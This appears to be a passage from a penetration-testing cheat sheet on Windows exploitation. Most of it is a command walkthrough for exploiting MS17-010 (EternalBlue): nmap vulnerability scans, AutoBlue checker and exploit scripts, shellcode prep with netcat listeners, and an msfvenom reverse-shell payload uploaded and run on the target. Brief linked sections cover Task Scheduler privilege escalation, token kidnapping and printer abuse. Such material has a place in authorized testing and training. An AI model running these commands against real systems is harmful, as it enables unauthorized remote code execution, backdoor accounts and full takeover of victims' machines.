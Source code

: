 [**https://github.com/3ndG4me/AutoBlue-MS17-010**](https://github.com/3ndG4me/AutoBlue-MS17-010)

[https://github.com/rayhan0x01/reverse-shell-able-exploit-pocs/blob/master/ms17-010.md](https://github.com/rayhan0x01/reverse-shell-able-exploit-pocs/blob/master/ms17-010.md)

{% code overflow="wrap" %}
```bash
# ENUM THE VULN FIRST WITH NMAP:
nmap -p139,445 --script "vuln and safe" $IP
nmap --script smb-vuln* $IP

# Use checker first. If target is not patched and there are named pipes, we can try zzz_exploit. If not, try specific exploit below. 
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
python eternal_checker.py $IP

# If so, launch zzz_exploit.py with the vulnerable pipe. Inside we can change the commands of the exploit to spawn a shell, add a new user to later add it to the locallgroup and so on.
python zzz_exploit.py $IP

# IF THE ABOVE PROCEDURE DOES NOT WORK, USE THE APPROPIATE ONE
eternalblue_exploit7.py - Win 7 SP1 x64, Win 2008 R2 SP1 x64, Win 7 SP1 x86, Win 2008 SP1 x64, Win 2008 SP1 x86
eternalblue_exploit8.py - Win 2012 R2 x64, Win 8.1 x64, Win 10 Pro Build 10240 x64
eternalblue_exploit10.py - Win 2012 R2 x64, Win 8.1 x64, Win 10 Pro Build 10240 x64
# Prepare the exploit
cd shellcode && ./shell_prep.sh 
# Next start two netcat listeners on the port numbers chosen and then run it:
python eternalblue_exploit7.py <TARGET-IP> shellcode/sc_all.bin

# FOR WINDOWS XP / 2000
- Download send_and_execute.py
msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR-MACHINE-IP> LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o rev_shell.exe
python send_and_execute.py <TARGET-IP> rev_shell.exe
```
{% endcode %}

## Task Scheduler Privilege Escalation

`Tested on: Windows 7/2008 x86/x64`

[`http://www.exploit-db.com/exploits/15589/`](http://www.exploit-db.com/exploits/15589/)

## Token Kidnapping

{% embed url="https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf" %}

## Printers

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---printers](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---printers)
